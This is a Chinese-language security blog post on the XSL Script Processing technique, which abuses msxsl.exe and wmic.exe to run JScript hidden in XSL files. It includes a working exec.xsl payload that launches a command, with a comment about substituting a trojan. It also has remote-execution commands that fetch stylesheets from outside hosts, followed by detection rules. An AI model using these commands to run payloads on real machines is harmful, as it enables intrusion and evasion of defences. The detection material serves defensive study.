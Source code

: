 # XSL Script Processing


XSL是指扩展样式表语言(Extension Stylesheet Language)



`msxsl.exe`是微软用于命令行下处理XSL的一个程序，所以通过他，我们可以执行JavaScript进而执行系统命令，下载地址：https://www.microsoft.com/en-us/download/details.aspx?id=21714

执行该工具需要用到2个文件，分别为`XML`及`XSL`文件，msxsl命令行接受参数形式如下：

```bash
msxsl.exe {xmlfile} {xslfile}

# 调用文件内的命令
msxsl.exe {xslfile} {xslfile}
```



### 命令执行

#### 技术复现（MSXSL.EXE）

##### 本地执行

test.xml

```xml
<?xml version="1.0"?>

<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>

<customers>

<customer>

<name>Microsoft</name>

</customer>

</customers>
```

exec.xsl

```xml
<?xml version="1.0"?>

<xsl:stylesheet version="1.0"

xmlns:xsl="http://www.w3.org/1999/XSL/Transform"

xmlns:msxsl="urn:schemas-microsoft-com:xslt"

xmlns:user="http://mycompany.com/mynamespace">

 

<msxsl:script language="JScript" implements-prefix="user">

   function xml(nodelist) {

var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");

    //这里可以改造为执行你的木马文件如：

	// var r = new ActiveXObject("WScript.Shell").Run("cmd /k cd c:\ & shell.exe");

   return nodelist.nextNode().xml;

 

   }

</msxsl:script>

<xsl:template match="/">

   <xsl:value-of select="user:xml(.)"/>

</xsl:template>

</xsl:stylesheet>
```

执行

```bash
msxsl.exe test.xml exec.xsl
```





##### 远程执行

```bash
msxsl.exe https://raw.githubusercontent.com/xx/master/test.xml  https://raw.githubusercontent.com/xx/master/exec.xsl


```







#### 技术复现（WMIC.EXE）

wmic可通过如下方式执行xsl内的恶意代码

```bash
wmic.exe {wmic_cmd} /FORMAT:{xsl_file}
```

##### 本地执行

```bash
wmic.exe process get name /format:exec.xsl
```



##### 远程执行

```bash
wmic.exe process get name /format:http:/www.xxx.com/exec.xsl
```



https://www.cnblogs.com/backlion/p/10489916.html



### 威胁检测

**数据源：** 进程监视、进程命令行参数、网络的进程使用、DLL监视

#### msxsl.exe

进程特征：

```bash
# 当msxsl.exe作为父进程创建其他进程时视为可疑
ParentImage regex '^.*msxsl\.exe$'
```

加载项特征：

```bash
#当msxsl.exe加载jscript.dll时视为可疑
Image regex '^.*msxsl\.exe$' AND ImageLoaded contains 'jscript.dll'
```



#### wmic.exe

加载项特征

```bash
#当wmic.exe加载jscript.dll时视为可疑
Image regex '^.*wmic\.exe$' AND ImageLoaded contains 'jscript.dll'
```



### 通过MSXSL方式进行鱼叉式网络钓鱼

有年头的参考文章：https://www.anquanke.com/post/id/159316







---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/xsl-script-processing/  

